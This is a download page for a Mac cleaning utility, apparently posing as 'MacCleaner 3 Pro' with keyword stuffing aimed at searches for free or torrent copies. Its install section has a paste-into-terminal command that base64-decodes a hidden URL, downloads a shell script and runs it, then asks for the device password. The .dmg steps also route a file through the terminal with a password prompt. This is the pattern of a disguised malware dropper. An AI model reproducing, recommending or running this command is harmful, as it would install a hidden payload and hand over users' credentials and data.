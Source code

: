 # MacCleaner 3 Pro Download

![MacCleaner Pro Icon](https://macx.ws/uploads/posts/2023-04/maccleaner-3.png)  

---

# ⬇️ Download MacCleaner 3 Pro

[![⬇️ Download Now](https://img.shields.io/badge/MacCleaner%20%20Pro-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/maccleaner)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0801-1.gif](https://i.postimg.cc/13YxsdYG/0801-1.gif)](https://postimg.cc/DSspcxh0)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-2.gif](https://i.postimg.cc/4x1CqdpS/0723-2.gif)](https://postimg.cc/Bjtw1JYT)

---

## 🧼 What is MacCleaner 3 Pro?

**MacCleaner 3 Pro** is a professional-grade utility designed to clean, optimize, and accelerate your Mac. Whether your Mac is slowing down, running out of space, or simply needs regular maintenance, MacCleaner 3 Pro provides a full toolkit to get your system back in shape.

This software offers **deep cleaning options** to remove system junk, user cache, browser data, unused apps, language files, duplicate files, and large old files. It also includes **RAM cleanup, disk usage analysis, login item manager**, and tools to reindex Spotlight or rebuild Mail databases.

With an intuitive interface and smart automation, MacCleaner 3 Pro is perfect for both beginners and advanced users. Whether you're running an older **Intel Mac** or a newer **Apple Silicon (M1/M2/M3)** system, it offers full compatibility and optimal performance.

MacCleaner 3 Pro is part of the **Nektony** suite of utilities, known for reliability and safety in macOS tools. It's not just a cleaner – it's a **macOS performance booster**, offering more than basic cleanup.

---

## 🧰 Key Features

- 🚀 Clean up **system junk, caches, and logs**
- 🗃️ Remove **duplicate and large files**
- 🧹 Clean **user and browser caches**
- 🛠️ Optimize **RAM usage** with 1-click boost
- 🔍 Analyze disk space and storage usage
- ⏱️ Speed up startup by disabling login items
- 📦 Uninstall apps completely with all leftovers
- 🧠 Rebuild Spotlight & Mail Index for performance
- 💻 Compatible with macOS Monterey, Ventura, Sonoma
- 🍎 Supports both Intel & Apple Silicon (M1/M2/M3)

---

![MacCleaner Pro Screenshot](https://s1.umpic.ru/u/f//e918d1cc87e1ab1f5646432b48493718.jpeg)

---

## 💻 System Requirements

- **macOS:** 10.13 High Sierra or newer  
- **RAM:** 4 GB minimum (8 GB recommended)  
- **Storage:** 200 MB for installation  
- **Processor:** Intel or Apple Silicon (Universal app)

---

## 🔑 Keywords

`maccleaner pro`, `mac cleaner free`, `best free mac cleaner`, `maccleanerpro`,  
`top free mac cleaners`, `maccleaner free`, `maccleaner download`, `best mac cleaning software`,  
`free mac cleaning software`, `best mac clean up software`, `mac cleaner free download`,  
`best mac cleaning app`, `mac clean up app`, `mac cleaner download`, `free mac cleaner app`,  
`gratis mac cleaner`, `mac cleaner gratis`, `free mac clean up software`, `mac clean download`,  
`free mac clean up programs`, `mac clean up files`, `maccleaners`, `maccleaner pro free`,  
`maccleaner pro download`, `maccleaner free download`, `mac cleaner pro free`, `maccleaner 3 pro`,  
`free apple mac cleaner`, `best free mac cleaner software`, `maccleaner 2 pro`,  
`best free mac cleaner app`, `mac cleaner pro 3`, `mac cleaner 2 pro`, `mac cleaner pro 2`,  
`mac cleaner free download full version`, `mac cleaner free full version`, `maccleaner 2`,  
`maccleaner pro 3`, `macclean pro`, `maccleaner pro 3 torrent`, `maccleaner pro free download`

---
